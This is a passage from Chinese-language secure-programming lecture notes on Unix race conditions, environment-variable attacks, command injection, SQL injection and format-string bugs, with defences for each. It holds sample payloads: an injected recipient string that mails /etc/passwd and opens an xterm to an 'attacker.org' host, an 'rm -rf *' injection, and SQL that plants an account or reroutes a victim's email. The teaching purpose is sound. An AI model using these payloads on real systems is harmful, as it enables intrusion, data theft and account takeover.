        3:      f = open("/tmp/X", O_RDWR); 
        4:      lstat("/tmp/X", &statAfter);
        
        5:      if (statAfter.st_ino == statBefore.st_ino) 
        6:      { /* the I-node is still the same */ 
        7:          Write_to_file(f) 
        8:      } 
        9:      else perror("Race Condition Attacks!"); 
        10: } 
        11: else fprintf(stderr, "Permission denied\n");
        ```
    
    +   但是，上面的解决方案不能工作（`open`和第二个`lstat之间存在竞态条件漏洞）。为了利用这个漏洞，攻击者需要执行另个静态条件攻击，第一个在第二行和第三行之间，另一个在第三行和第四行之间。虽然赢得两次竞争的可能性低于前面的情况，但还是可能的。
    +   为了修复漏洞，我们打算在文件描述符`f`上使用`lstat`，而不是在文件名称上。虽然`lstat`不能这样做，但是`fstat`可以。
    
        ```c
            #include <sys/types.h> 
            #include <sys/stat.h> 
            #include <fcntl.h> 
            #include <stdio.h>
        
            int main() { 
                struct stat statBefore, statAfter;
        
        1:       lstat("/tmp/X", &statBefore); 
        2:      if (!access("/tmp/X", O_RDWR)) { /* the real UID has access right */ 
        3:          int f = open("/tmp/X", O_RDWR); 
        4:          fstat(f, &statAfter); 
        5:          if (statAfter.st_ino == statBefore.st_ino) 
        6:          { /* the I-node is still the same */ 
        7:              write_to_file(f); 
        8:          } 
        9:          else perror("Race Condition Attacks!");
        10:     } 
        11:     else fprintf(stderr, "Permission denied\n"); 
        12: }
        ```
        
    +   问题：`lstat`和`fstat`之间有没有竞态条件？如果在第一行使用符号链接（例如到`/etc/shadow`）。之后在第二行之前，快速切换到`/tmp/X`，之后在第三行之前再次快速切换会符号链接呢？
    
        答案：这个攻击是不可行的。函数调用`lstat("/tmp/X",...)`返回链接的状态，如果`/tmp/X`是个符号链接，而不是链接所指向文件的状态。换句话说，当`/tnp/X`指向了`/etc/shadow`，由`lstat(/tmp/X,...)`返回的 inode 就是`/tmp/X`的 inode，但是由`fstat(f, ...)`返回的 unode 是文件的 inode（这里是`/etc/shadow`的 inode）。即使`/tmp/X`指向了`/etc/shadow`，这两个 inode 是不同的。
        
    +   要注意：所有这类调用都有两个版本，一个用于文件名，另一个用于文件描述符（思考：如果`access`也可以用于文件描述符，解法会简单很多）。
+   检查-使用-重复方式：在几个迭代内重复访问和打开。在下面的示例中，攻击者需要赢得五个竞态条件（1~2，2~3，3~4，4~5，5~6）：

    ```c
    1:  if (access("tmp/X", O_RDWR)) goto error handling 
    2:  else f1 = open("/tmp/X", O_RDWR); 
    3:  if (access("tmp/X", O_RDWR)) goto error handling 
    4:  else f2 = open("/tmp/X", O_RDWR); 
    5:  if (access("tmp/X", O_RDWR)) goto error handling 
    6:  else f3 = open("/tmp/X", O_RDWR);
    
        // Check whether f1, f2, and f3 has the same i-node (using fstat)
    ```

+   基于最小权限原则：
    +   在使用`access`和`open`的程序中，我们知道`open`比我们想要的更加强大（它只检查有效 UID），这就是我们需要使用`access`来确保我们没有滥用权限的原因。我们从竞态条件攻击中得到的启示，就是这种检查不是始终可靠。
    +   另一个防止程序滥用权限的方法，就是不要给予程序权限。这就是最小权限原则的本质：如果我们暂时不需要这个权限，我们应该禁用他。如果我们永远都不需要这个权限，我们应该移除它。没有了权限，即使程序犯了一些错误，损失也会降低。
    +   在 Unix 中，我们可以使用`seteuid`或者`setuid`系统调用，来开启、禁用或删除权限。
    
        ```c
            /* disable the root privilege */ 
            #include <unistd.h> 
            #include <sys/types.h>
            uid_t real_uid = getuid(); // get real user id
            uid_t effective_uid = geteuid(); // get effective user id
        1:  seteuid (real_uid);
        
        2:  f = open("/tmp/X", O_WRITE); 
        3:  if (f != -1) 
        4:  write_to_file(f); 
        5:  else 
        6:  fprintf(stderr, "Permission denied\n");
        
            /* if needed, enable the root privilege */ 
        7:  seteuid (effective_uid);
        ```

## 六、输入校验

### 1 环境变量（隐藏的输入）

环境变量是隐藏的输入。它们存在并影响程序行为。在编程中忽略它们的存在可能导致安全隐患。

+   PATH
    +   在 Shell 中运行命令时，Shell 会使用 PATH 环境变量搜索所有命令。
    +   下面会发生什么呢？
        
        ```c
        system("mail");
        ```
        
    +   攻击者可以将 PATH 修改成下面，并使当前目录下的`mail`执行。
    
        ```
        PATH=".:$PATH"; export PATH
        ```
+   IFS 
    +   IFS 变量决定了哪个字符解释为空白字符。它代表了内部字符安分隔符。假设我们将其设置为包含斜杠字符：
    
        ```
        IFS="/ \t\n"; export IFS
        PATH=".:$PATH"; export PATH
        ```
        
    +   现在从 Bourne shell（例如`system`或者`popen`系统调用）中，调用任何使用绝对 PATH 的程序。现在这会解释成下面的东西，尝试在用户的当前目录中执行叫做`bin`命令。
    
        ```c
        system("/bin/mail root");   --->  system(" bin mail root"); 
        ```
        
    +   IFS 的 Bug 现在在 Shell 中漂亮地禁用了。
+   LD_LIBRARY_PATH 
    +   动态链接目录：在搜索动态库时，UNIX 系统会在由该环境变量提供的特定目录中搜索库。
    +   几乎每个 UNIX 程序都依赖于`libc.so`，以及每个 Windows 程序都依赖于 DLL。如果这些库变成了木马，许多事情就会发生错误。
    +   攻击者可以改变这个路径，并使程序加载攻击者的库。
    
        ```
        setenv LD_LIBRARY_PATH /tmp:$LD_LIBRARY_PATH 
        ```
        
        或者用户当前目录
        
        ```
        setenv  LD_LIBRARY_PATH .:$LD_LIBRARY_PATH 
        ```
        
    +   多数现代的 C 运行时库都修复了这个问题，通过当 EUID 不等于 UID，或者 EGID 不等于 GID 时，忽略`LD_LIBRARY_PATH`变量。
    +   防护应用可以使用可信库静态链接来避免它。
    +   在 Windows 的机制中，加载 DLL 时，通常在搜索系统目录之前，在当前目录中搜索 DLL。如果你点击了 Word 文档来启动 Office，包含文档的目录首先用于搜索 DLL。
+   `LD_PRELOAD `
    +   许多 UNIX 系统允许你预加载共享库，通过设置环境变量`LD_PRELOAD `。这允许你做一些有趣的事情，比如将 C 标准库的函数或者甚至系统调用的 C 接口换成你自己的函数。
    +   如果程序是 Set-UID 程序，现代的系统会忽略`LD_PRELOAD`。
    
        ```
        % cc -o malloc_interposer.so -G -Kpic malloc_interposer.c 
        % setenv LD_PRELOAD $cwd/malloc_interposer.so 
        ```
        
    +   如何去掉环境变量？
    
        ```c
        extern char   **environ;   
        int main(int argc, char **argv) {
            environ = 0; 
        } 
        ```
        
        +   上面的策略不一定对每个程序都起作用。例如，运行期间加载共享库需要`LD_LIBRARY_PATH`。

### 案例学习

+   `vi`漏洞
    +   行为：
        
        (1) `vi file`
        
        (2) 保持打开但不保存
        
        (3) `vi`调用了`expreserve`，它在保护区域保存缓冲区
        
        (4) `expreserve`调用`mail`来向用户发送邮件
    +   事实：
        +   `expreserve`是个 Set-UID 程序，`mail`使用 Root 权限调用。
        +   `expreserve`使用了`system("mail user")`或者`system("/bin/mail user")`。
        +   `expreserve`没有注意环境变量。
    +   攻击：
        +   修改了 PATH 和 IFS
            
            `IFS="/binal\t\n"`使`m`被调用，而不是`/bin/mail`。

### 2 进程属性

+   `umask`值
    +   它决定了新创建文件的默认权限
    +   子进程从它的父进程继承该值
    +   考虑这个场景：
        
        一个 Set-UID 程序在`/tmp/tempfile`保存临时数据。这个文件的完整性十分重要。如果程序员假设 umask 值为 077，假设可能不成立。攻击者可以从自己的 Shell 中运行这个程序，Set-UID 会从 Shell 继承这个 umask 值。
        
        如何防护它：显式设置 umask 值（使用`umask(077)`），或者显式设置新创建文件的权限（使用`chmod("newfile",0755)`。
+   内存转储
    +   如果你的程序保存了敏感数据，例如未加密的密码，你应该禁止程序的内核转储。
    +   如何禁用内和转储？
    
        ```c
        #include <sys/time.h> 
        #include <sys/resource.h> 
        #include <unistd.h>  
        
        int main(int argc, char **argv) {
            struct rlimit   rlim;
            getrlimit(RLIMIT_CORE, &rlim);
            rlim.rlim_max = rlim.rlim_cur = 0;
            if (setrlimit(RLIMIT_CORE, &rlim)) {
                exit(-1);         
            }
            ...
            return 0;
        } 
        ```
        
    +   Solaris 默认（Solaris 8 开始）不允许 Set-UID 程序由于明显的安全原因的内核转储。
    
#### 3 调用其它程序

+   安全地调用其它程序
    +   如果 CGI 脚本这样做，会有什么潜在的问题？
    
        ```c
        // $Recipient contains email address provided by the user  
        //      using web forms.   
        system("/bin/mail", $Recipient); 
        ```
        
    +   `$Recipient`可能包含 Shell 的特殊字符（`| & < >`）（命令注入）。
    
        ```
        "attacker@hotmail.com < /etc/passwd;  
        export DISPLAY=proxy.attacker.org:0; /usr/X11R6/bin/xterm&;" 
        ```
        
    +   如果 CGI 脚本这样做，会有什么潜在的问题？
    
        ```c
        system("cat", "/var/stats/$username"); 
        ```
        
    +   攻击者可以将用户名提交为`../../etc/passwd`（命令注入、路径遍历）。
    
    +   如果 CGI 脚本这样做，会有什么潜在的问题？

        ```c
        sprintf(buf,"telnet %s",url); 
        system(buf); 
        ```
        
    +   如果 URL 是这种形式，也会做出回应（命令注入、栈溢出）。
    
        ```
        host.example.com; rm -rf * 
        ```
        
+   `exec`函数、`system`和`popen`
    +   Exec 函数系列通过将当前进程影响包装成新的，来运行子进程。有许多 Exec 函数的版本，它们工作方式不同。它们可以归类于以下几种：
        +   使用或者不使用 Shell 来启动子进程
        +   通过 Shell（Shell 可以引入比我们预期的更多功能。要注意 Shell 是个强大的程序）处理命令行参数。
    +   启动子进程涉及到依赖和属性继承的问题，我们已经看到它们存在问题。函数`execlp`和`execvp`使用 Shell 来启动程序。它们使程序的执行依赖当前用户的 Shell 配置。也就是依赖于 PATH 和其它环境变量的值。`execv`更安全，因为它并没有向代码引入这种依赖。
    +   `system(string)`调用将字符串传递给 Shell 来作为子进程执行（也就是作为单独派生的进程）。它是 Exec 函数的便利前端。
    +   `popen`的标准实现与之相似。这个函数打开到新进程的管道，以便执行命令，并且读取任何输出作为文件流。这个函数也会启动 Shell，来解释命令行字符串。
+   如何安全地调用程序？
    +   避免任何调用 Shell 的东西。不要使用`system`，而是使用`execve`，它不调用 Shell，与`system`不同。
    +   避免`execlp(file, ...)`和`execvp(file, ...)`，它们的语义与 Shell 类似。它们使用文件内存作为 Shell 的标准输入，如果文件不是有效的可执行目标文件。
    +   要注意可能使用 Shell 实现的函数。
        +   Perl 的`open`函数能够执行命令，并且通常通过 Shell 来实现。

### 4 SQL 注入

> 示例来源于 Steve Fried 的 Unixwiz.net Tech Tips: SQL Injection Attacks by Example。

+   SQL 注入是个利用 Web 应用的技巧，该应用在查询中使用客户端提供的数据，但是没有首先过滤掉潜在有害的字符。因此，Web 应用可能会执行非预期的 SQL 代码。
+   一些应用从 Web 表单获取用户输入，之后使用用户输入直接构造 SQL 语句。例如，下面的 SQL 查询使用`$EMAIL`的值构造，它直接由用户表单提交：

    ```sql
    SELECT email, passwd, login_id, full_name  
    FROM table  
    WHERE email = '$EMAIL'; 
    ```
    
+   上面的应用当用户忘记密码时经常使用。它们只需要键入它们的邮件地址。如果邮件地址在数据库中（用户已注册），该邮件的密码会发到该邮件地址。这个例子中，SQL 注入攻击的目标是能够登入系统，而不需要是它的用户。
+   猜测字段名称：第一步就是猜测数据库的一些字段名称
    +   下面猜测了字段名称`email`：
    +   如果我们得到了服务器错误，就意味着我们的 SQL 格式错误，并且抛出了语法错误。最可能是由于错误的字段名称。如果我们得到了任何种类的有效回应，我们就正确猜测了名称。这里我们得到了`email unknown`或者`password was sent`回复。
    
        ```sql
        SELECT fieldlist   
        FROM table  
        WHERE field = 'x' AND email IS NULL; --'; 
        ```
        
    +   猜测表名称
        +   与之相似，如果消息是`email unknown`或者`password was sent`，我们就知道我们的猜测是否正确。
        
            ```sql
            SELECT email, passwd, login_id, full_name   
            FROM table  
            WHERE email = 'x' AND 1=(SELECT COUNT(*) FROM tabname); --'; 
            ```
            
        +   但是，上面只确认了`tabname`是否是有效名称，不一定是我们使用的名称，下面的语句有所帮助：
        
            ```sql
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' AND members.email IS NULL; --'; 
            ```
    +   猜测用户的邮件地址：`$EMAIL = x' OR full_name LIKE '%Bob%`
        +   如果 SQL 语句执行成功，通常你会看到这样的消息：`We sent your password to <…>`，其中`<…>`是邮件地址，它的`fill_name`与`%Bob%`匹配（`%`是通配符）。
        
            ```sql
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' OR full_name LIKE '%Bob%'; 
            ```
    +   爆破密码（在我们了解有效邮件地址之后）
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  
        WHERE email = 'bob@example.com' AND passwd = 'hello123';
        ```
        
    +   如果数据库不是只读的，我们可以尝试下面的东西来添加新用户：
        +   末尾的`-- `（注意空格，或者使用`#`）是 SQL 注释的开始。这是个有效的方式来去掉最后由应用提供的单引号，并且不会担心它们的匹配。
        +   有一些挑战：
            +   Web 表单可能没有像你提供足够的空间来键入整个字符串。
            +   Web 应用的用户可能没有`members`表的`INSERT`权限。
            +   应用可能不能正常表现，因为我们没有提供其它字段的值。
            +   有效的`member`可能不仅仅需要`members`表的一行记录，也需要其它表的关联信息（例如`accessrights`），所以只向一个表添加可能不足够。
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';   
        INSERT INTO members ('email','passwd','login_id','full_name')    
        VALUES ('xyz@hacker.net','hello','xyz','xyz Hacker');--'; 
        ```
    +   修改现有用户的邮件地址
        +   如果成功了，攻击者就能访问正常的`I lost my password`链接，键入更新后的邮件地址，并在邮件中收到 Bob 的密码。
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';       
        UPDATE members       
        SET email = 'xyz@hacker.net'       
        WHERE email = 'bob@example.com'; 
        ```
    
    +   如何防止 SQL 攻击？
        +   过滤输入
        +   配置错误报告：上面的攻击利用了由服务器返回的错误信息。通过不告诉用户 SQL 查询中实际的错误信息，可以使攻击者更加困难。例如，你可以只说`something is wrong`。
        +   使用预定义参数，所以用户的输入仅仅被看做数据，引号、反斜杠和 SQL 注释记号不会产生影响，因为它们也仅仅被看做数据，并且不会解释为 SQL。看看下面的 Java 代码：
        
        ```java
        // Insecure version 
        Statement s = connection.createStatement(); 
        ResultSet rs = s.executeQuery("SELECT email FROM member WHERE name = " + formField);   
        // Secure version 
        PreparedStatement ps = 
        connection.prepareStatement( "SELECT email FROM member WHERE name = ?"); 
        ps.setString(1, formField); 
        ResultSet rs = ps.executeQuery(); 
        ```


## 七、格式化字符串漏洞

```c
printf ( user_input );
```

上面的代码在 C 程序中十分常见。这一章中，我们会发现如果程序使用权限运行（例如 Set-UID 程序），可能造成什么问题。

### 1 格式化字符串

+   什么是格式化字符串？

    ```c
    printf ("The magic number is: %d\n", 1911);
    ```
    
    被打印的文本是`The magic number is:`，后面是格式化参数`%d`。它在输出中由参数 1911 替换。因此输出是这样：`The magic number is: 1911`。除了`%d`，还有几种其它的格式化参数，每种都有不同的含义。下面的表格总结了这些格式化参数：
    
    ```
    参数 含义 传递方式
    ------------------------------------------
    %d 十进制 (int) 传值 
    %u 无符号十进制 (unsigned int) 传值 
    %x 十六集进制 (unsigned int) 传值 
    %s 字符串 ((const) (unsigned) char *) 传址 
    %n 目前为止写入的字符数 (* int) 传址
    ```
    
+   栈和它在格式化字符串中的作用

    格式化函数的行为格式化字符串控制。函数从栈上获取由格式化字符串请求的参数。
    
    ```c
    printf ("a has value %d, b has value %d, c is at address: %08x\n", a, b, &c);
    ```
    
    
    
+   如果格式化字符串和实际参数之间不匹配，会如何？

    ```c
    printf ("a has value %d, b has value %d, c is at address: %08x\n", a, b);
    ```
    
    +   在上面的例子中，格式化字符串请求三个参数，但是程序实际上提供了两个（也就是`a`和`b`）。
    +   这个可以通过编译器嘛？
        +   函数`printf`定义为参数长度可变的函数。因此，通过查看参数数量，一切都正常。
        +   为了寻找不匹配，编译器需要理解`printf`如何工作，以及格式化字符串是什么意思。但是，编译器不会做这种分析。
        +   有时，格式化字符串不是个字符串常量。它在程序执行期间生成。因此，这里编译器没有办法发现不匹配。
    +   `printf`可能检测不匹配吗？
        +   函数`printf`从栈上获取参数。如果格式化字符串需要三个参数，它会从栈上获取三个参数。除非栈上存在标记，`printf`不知道它超出了提供给它的参数范围。
        +   由于不存在标记，`printf`会继续从栈上抓取数据。在不匹配的情况下，它会抓取一些不属于这个函数调用的数据。
        
### 2 格式化字符串漏洞攻击

+   使程序崩溃
    
    ```c
    printf ("%s%s%s%s%s%s%s%s%s%s%s%s");
    ```
    
    +   对于每一个`%s`，`printf`会从栈上抓取一个数值，将其看做地址，并将由该地址指向的内存内容打印为字符串，直到遇到了空字符（数值 0 而不是字符 0）。
    +   由于`printf`抓取的数值可能不是有效地址，由该数值指向的内存可能不存在（也就是没有物理内存赋给这个地址），程序就会崩溃。
    +   也可能数值碰巧是有效地址，但是地址空间被保护了（也就是为内核空间预留）。这样的话，程序也会崩溃。
+   查看栈
    
    ```c
    printf ("%08x %08x %08x %08x %08x\n");
    ```
    
    +   这让`printf`函数从栈上获取五个参数，并将其展示为填充长度为 8 的十六进制数值。所以输出可能为：
    
        ```
        40012980 080628c4 bffff7a4 00000005 08059c04
        ```
+   查看任何地址的内存
    +   我们需要提供内存地址。但是我们不能修改代码，我们只能提供格式化字符串。
    +   如果我们使用`printf(%s)`，而不指定内存地址，`printf`就会从栈上获取目标地址。函数维护了初始的栈指针，所以它知道栈上参数的位置。
    +   观察：格式化字符串通常位于栈上。如果我们可以将目标地址编码在格式化字符串中，目标地址就能在栈上。下面的示例中，格式化字符串储存在缓冲区中，它位于栈上。
    
        ```c
        int main(int argc, char *argv[]) { 
            char user_input[100]; 
            ... ... /* other variable definitions and statements */
            
            scanf("%s", user_input); /* getting a string from user */ 
            printf(user_input); /* Vulnerable place */
            
            return 0;
        }
        ```
    
    +   如果我们可以让`printf`从格式化字符串获取地址（也位于栈上），我们就可以控制该地址。
    
        ```c
        printf ("\x10\x01\x48\x08 %x %x %x %x %s");
        ```
        
    +   `\x10\x01\x48\x08`是目标地址的四个字节。在 C 语言中，`\x10`让编译器将十六进制值 0x10 放入当前位置。这个值只占一个字节。如果我们不使用`\x`，直接将 10 放入字符串，就会储存 ASCII 值 1 和 0。它们的 ASCII 值是 49 和 48。
    +   `%x`让栈指针沿着格式化字符串移动。
    +   这里是攻击方式，如果`user_input`包含下面的格式化字符串：
    
        ```
        "\x10\x01\x48\x08 %x %x %x %x %s"
        ```
        
        
        
    +   本质上，我们使用四个`%x`来使`printf`的指针，向我们储存在格式化字符串中的地址移动。一旦到达了目标，我们就会像`printf`提供`%s`，使其打印出地址` 0x10014808`的内容。函数`printf`会将内存看做字符串，并打印出来，知道到达了字符串尾部（空字符）。
    +   `user_input`和传给`printf`函数的地址之间的栈空间并不是`printf`的。但是，由于程序中的格式化字符串漏洞。`printf`将它们看做匹配格式化字符串中`%x`的参数。
    +   这个攻击的关键就是弄清楚`user_input`和传给`printf`的地址的距离。这个距离决定了在提供`%s`之前，你需要向格式化字符串插入多少个`%x`。
+   在进程的内存中向任何地址写入整数
    +   `%n`：目前为止写入的字符数量，储存在一个整数中，它由相应参数表示。
    
        ```c
        int i; 
        printf ("12345%n", &i);
        ```
        
    +   它使`printf`将 5 写入变量`i`。
    +   使用查看任意地址内存的相同方式，我们可以使`printf`将整数写入任意地址。只需要将上面例子中的`%s`替换为`%n`，就会覆盖` 0x10014808`地址处的内容。
    +   使用这个攻击，攻击者可以做这些事情：
        +   覆盖控制访问权限的重要程序标志位
        +   覆盖栈上的返回地址，函数指针，以及其他
    +   但是，写入的值由`%n`之前已打印的字符数量决定。是否真的可以写入任意整数呢？
        +   使用伪造的输出字符。为了写入值 1000，应该事先打印 1000 个伪造字符的间隔。
        +   为了避免过长的格式化字符串，我们可以使用格式化标志的宽度限定。
+   预防措施
    +   地址空间随机化：就像用于保护缓冲区溢出攻击的预防措施那样，地址空间随机化攻击者难以找到他们想要读取或写入什么地址。（译者注：但是仍然有一些区域无法随机化，比如 PLT）。

## 八、Web 安全

（略）
